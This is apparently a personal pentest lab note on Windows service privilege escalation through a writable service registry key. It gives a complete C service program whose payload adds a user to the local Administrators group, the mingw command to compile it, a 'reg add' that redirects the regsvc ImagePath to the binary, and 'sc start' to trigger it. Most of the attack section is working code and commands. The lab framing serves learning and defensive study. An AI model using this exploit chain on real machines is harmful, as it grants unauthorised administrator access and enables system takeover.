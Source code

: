 # Service Escalation - Registry

### What’s Service Escalation

Windows programs which run in background usually these service run with system privilege

if we can edit in `Executable Path` we can take a system privilege on this machine

***

### Detection

```powershell
Get-Acl -Path HKLM:\System\CurrentControlSet\Services\<ServiceName> | Format-List
## u can get service name using
Get-Service
```

![2025-07-05 19\_29\_49-Kali Linux - VMware Workstation.png](<../../../.gitbook/assets/2025 07 05_19_29_49 Kali_Linux_ _VMware_Workstation.png>)

***

### Exploitation

we create shared folder from kali to windows to allow us to move files smoothly

then we will edit in this file `windows_service.c` to addus on Admin group

*   `windows_service.c`

    ```powershell
    #include <windows.h>
    #include <stdio.h>

    #define SLEEP_TIME 5000

    SERVICE_STATUS ServiceStatus; 
    SERVICE_STATUS_HANDLE hStatus; 
     
    void ServiceMain(int argc, char** argv); 
    void ControlHandler(DWORD request); 

    //add the payload here
    int Run() 
    { 
        system("cmd.exe /k net localgroup administrators user /add");
        return 0; 
    } 

    int main() 
    { 
        SERVICE_TABLE_ENTRY ServiceTable[2];
        ServiceTable[0].lpServiceName = "MyService";
        ServiceTable[0].lpServiceProc = (LPSERVICE_MAIN_FUNCTION)ServiceMain;

        ServiceTable[1].lpServiceName = NULL;
        ServiceTable[1].lpServiceProc = NULL;
     
        StartServiceCtrlDispatcher(ServiceTable);  
        return 0;
    }

    void ServiceMain(int argc, char** argv) 
    { 
        ServiceStatus.dwServiceType        = SERVICE_WIN32; 
        ServiceStatus.dwCurrentState       = SERVICE_START_PENDING; 
        ServiceStatus.dwControlsAccepted   = SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_SHUTDOWN;
        ServiceStatus.dwWin32ExitCode      = 0; 
        ServiceStatus.dwServiceSpecificExitCode = 0; 
        ServiceStatus.dwCheckPoint         = 0; 
        ServiceStatus.dwWaitHint           = 0; 
     
        hStatus = RegisterServiceCtrlHandler("MyService", (LPHANDLER_FUNCTION)ControlHandler); 
        Run(); 
        
        ServiceStatus.dwCurrentState = SERVICE_RUNNING; 
        SetServiceStatus (hStatus, &ServiceStatus);
     
        while (ServiceStatus.dwCurrentState == SERVICE_RUNNING)
        {
                    Sleep(SLEEP_TIME);
        }
        return; 
    }

    void ControlHandler(DWORD request) 
    { 
        switch(request) 
        { 
            case SERVICE_CONTROL_STOP: 
                            ServiceStatus.dwWin32ExitCode = 0; 
                ServiceStatus.dwCurrentState  = SERVICE_STOPPED; 
                SetServiceStatus (hStatus, &ServiceStatus);
                return; 
     
            case SERVICE_CONTROL_SHUTDOWN: 
                ServiceStatus.dwWin32ExitCode = 0; 
                ServiceStatus.dwCurrentState  = SERVICE_STOPPED; 
                SetServiceStatus (hStatus, &ServiceStatus);
                return; 
            
            default:
                break;
        } 
        SetServiceStatus (hStatus,  &ServiceStatus);
        return; 
    } 
    ```

then compile file on linux and move it to windows

```bash
x86_64-w64-mingw32-gcc windows_service.c -o x.exe
# NOTE: if this is not installed, use
sudo apt install gcc-mingw-w64
```

**In windows vm**

edit path of regsvc

```bash
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f
```

then run service

```powershell
sc start regsvc
```

```powershell
# to show all users in admin group
net localgroup administrators
```

![2025-07-05 19\_39\_50-Kali Linux - VMware Workstation.png](<../../../.gitbook/assets/2025 07 05_19_39_50 Kali_Linux_ _VMware_Workstation.png>)
